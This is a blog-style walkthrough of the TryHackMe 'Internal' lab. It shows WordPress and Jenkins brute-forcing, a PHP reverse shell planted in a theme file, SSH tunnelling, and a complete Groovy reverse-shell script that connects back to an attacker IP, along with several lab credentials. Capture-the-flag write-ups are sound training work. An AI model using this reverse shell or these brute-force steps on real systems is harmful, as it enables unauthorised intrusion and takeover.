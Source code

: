 +++
draft = false
title = 'Internal Walkthrough'
tags = ["TryHackMe"]
+++

So lets deploy the machine and start enumerating.

![Internal first image](/images/internal/internal1.png)


We can see ssh open on port 22 and a http web server on port 80. If we enter on 10.10.199.61 we see Apache2 Ubuntu Default Page.

![[Pasted image 20241116163644.png]]

After some directory enumeration, we find the following:

/blog

/phpmyadmin

/javascript

/wordpress/wp-login.php

![[Pasted image 20241116163655.png]]

It is necessary to add internal.thm to our /etc/hosts file to navigate through the website.

Since we know admin is a user because he has a post on the website, we can brute force the login page using wpscan and rockyou.txt for the password.

![[Pasted image 20241116163705.png]]
So we found admin:my2boys as valid credentials now we can log in.

Now if we go to Appearence we can see some php files, let's create edit them and add our php reverse shell. Later with a nc listener we can get access. [http://internal.thm/blog/wp-content/themes/twentyseventeen/search.php](http://internal.thm/blog/wp-content/themes/twentyseventeen/search.php)

![[Pasted image 20241116163715.png]]

Now just access link of the edited php file and we are in.

Let's upgrade our shell

python -c 'import pty; pty.spawn("/bin/bash")'

Using linpeas we find some interesting information. wordpress:wordpress123 credentials

some phpmyadmin credentials we can check on config file.

![[Pasted image 20241116163724.png]]

phpmyadmin:B2Ud4fEOZmVq

Let's go into phpmyadmin page which we find before with directory enumeration and check what is in.

Nothing interesting.

Enumerating a little bit more trying to locate .txt for flags we find intersting file.

![[Pasted image 20241116163733.png]]

aubreanna:bubb13guM!@#123 Now we can connect through ssh.

Once in we see a txt file with a jenkins server which is not reachable from our machine. We need to do SSH tunneling to forward that server so we are able to reach it from our machine.

![[Pasted image 20241116163743.png]]

Now from port 3333 we can access the server.

![[Pasted image 20241116163752.png]]

Now we use hydra to burteforce admin user on jenkins.

![[Pasted image 20241116163832.png]]

We got credentials!! admin:spongebob

Now on jenkins at /script we can run Goovy scripts and get a reverse shell. String host="10.11.18.85";

int port=6666;

String cmd="/bin/sh";

Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed())

{while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while( si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try

{p.exitValue();break;}catch (Exception e){}};p.destroy();s.close(); With a netcat listener we get access.

So once in the system we use find command to locate files like we did to see if we get something interesting.

/opt/note.txt seems similar to previous one.

We found root credentials on the file!! root:tr0ub13guM!@#123

Now we can ssh as root and get last flag.